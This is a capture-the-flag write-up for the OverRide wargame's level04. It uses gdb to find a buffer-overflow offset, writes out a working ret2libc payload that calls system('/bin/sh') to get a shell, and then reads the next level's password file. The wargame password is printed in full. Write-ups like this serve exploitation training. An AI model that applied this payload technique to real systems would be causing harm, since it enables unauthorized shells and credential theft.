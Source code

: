 # Level04 Exploit

## Steps

### 1. Program Behavior
Run the program to observe its behavior:
```bash
level04@OverRide:~$ ./level04
Give me some shellcode, k

child is exiting...
```

### 2. Vulnerability Discovery
Identify the buffer overflow vulnerability:
```bash
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 1668]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1668]
0x41326641 in ?? ()
```

### 3. Exploiting the Vulnerability
Find necessary addresses and craft the exploit:
```bash
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system

(gdb) info proc map
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec: "/bin/sh"
```

### 4. Executing the Exploit
Run the exploit to gain shell access:
```bash
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7"' ; cat) | ./level04
Give me some shellcode, k
whoami
level05
```

### 5. Accessing the Next Level
Retrieve the password for the next level:
```bash
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```